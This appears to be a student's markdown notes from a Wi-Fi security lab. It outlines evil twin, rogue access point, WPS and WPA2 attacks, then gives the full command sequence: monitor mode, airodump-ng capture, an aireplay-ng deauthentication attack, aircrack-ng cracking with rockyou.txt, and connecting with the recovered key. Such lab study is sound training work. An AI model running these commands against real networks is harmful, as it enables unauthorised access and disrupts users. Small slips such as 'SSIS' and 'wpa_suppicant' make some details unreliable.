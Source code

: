 ```yaml
---
title: Day 11 - If you'd like to WPA, press the star key!
draft: false
tags:
  - cybersecurity
  - wireless
---
```


WiFi signals are broadcasted with a unique **SSIS**
We can connect if we know the pre-shared key **PSK**

### Wi-Fi's Pivotal Role in Organizations
A malicious actor from the outside could still see the broadcasted Wi-Fi SSID

### Attacks on Wi-Fi
- **Evil twin attack** : the attacker creates a fake access point that has similar name to the trusted one. The attack starts with the attacker sending de-authentication packets to all the users connected to their Wi-Fi
- **Rogue access point**: The attacker sets up an open Wi-Fi access point near or inside the organization's physical premises. Accidental join
- **WPS Attack**: 8-digit pin vulnerable. The attack is made by initiating a WPS handshake and capturing the router's response. The response contains information of the PIN for brute-force attack.
- **WPA/WPA2 cracking**: Attackers start by sending de-authentication packets to a legitimate user. When he disconnects they try to reconnect, and a 4way handshake with the router takes place. The attacker turns its adaptor into monitor mode and captures the handshake. Then bruteforce

### WPA/WPA2 Cracking

#### The 4-way Handshake
It's a process that helps a client device and a Wi-Fi router confirm they both have the right password or PSK:
- **Router sends a challenge**
- **Client responds with encrypted information**
- **Router verifies and sends confirmation**
- **Final check and connection established**


### The practical
`iw dev` shows any wireless devices and their configuration
```
phy#2 
	Interface wlan2 
		ifindex 5  
		wdev 0x200000001 
		addr 02:00:00:00:02:00 
		type managed 
		txpower 20.00 dBm
```

The `type` is managed, it/s a standard mode.

#### Scan nearby Wi-Fi
`sudo iw dev wlan2 scan`
Important information:
- **BSSID**
- Presence of **RSN (Robust Security Network)** indicates the network is using WPA2
- **Group and Pairwise ciphers** are **CCMP** Counter Mode with Cypher Block Chaining Message Authentication Code Protocol is the encryption methos used by WPA2
- **Authentication suites** value inside RSN is **PSK**
- `DS Parameter set` is channel 6. The channel refers to a specific frequency range within the broader Wi/Fi spectrum
- 2.4 ghz channels 1,6,11


#### Monitor Mode
Primarily used for network analysis and security auditing.
The interface listens to all wireless traffic on a specific channel
`sudo ip link set dev wlan2 down` to turn off the device
`sudo iw dev wlan2 set type monitor`
`sudo ip link set dev wlan2 up`


### The attack
In a first terminal we start capturing Wi-Fi traffic with `sudo airodump-ng wlan2`
Knowing the BSSID we run
`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`
Targeting the specific network

In the second terminal we will launch the deauthentication attack
`sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
The second BSSID is the target

The we see the handshake and try to crack the PIN
`sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`

We found the key `fluffy/champ24`
We can connect
```bash
wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
sudo wpa_suppicant -B -c config -i wlan2
```

